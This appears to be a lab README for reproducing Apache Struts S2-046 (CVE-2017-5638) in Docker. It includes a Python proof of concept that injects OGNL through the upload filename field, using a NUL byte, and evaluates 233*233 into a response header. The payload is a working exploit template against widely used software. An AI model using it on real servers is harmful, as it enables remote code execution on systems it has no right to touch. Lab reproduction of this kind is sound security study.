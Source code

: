 # S2-046 Remote Code Execution Vulnerablity（CVE-2017-5638）

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

References:

 - https://cwiki.apache.org/confluence/display/WW/S2-046
 - https://xz.aliyun.com/t/221

## Setup

Execute the following command to start the Struts2 2.3.30：

```
docker-compose up -d
```

After the container is running, visit `http://your-ip:8080` that you can see an example of the upload page.

## Exploitation

As same as S2-045, S2-046 is also the OGNL injection but occurs at filename field of the upload request, and a NUL byte is needed to split payload and the remaining strings.

A simple Python POC for Verifying the vulnerability:

```python
import socket

q = b'''------WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Disposition: form-data; name="upload"; filename="%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test',233*233)}\x00b"
Content-Type: text/plain

foo
------WebKitFormBoundaryXd004BVJN9pBYBL2--'''.replace(b'\n', b'\r\n')
p = b'''POST / HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Length: %d

'''.replace(b'\n', b'\r\n') % (len(q), )

with socket.create_connection(('your-ip', '8080'), timeout=5) as conn:
    conn.send(p + q)
    print(conn.recv(10240).decode())

```

`233*233` has been successfully executed:

![](1.png)
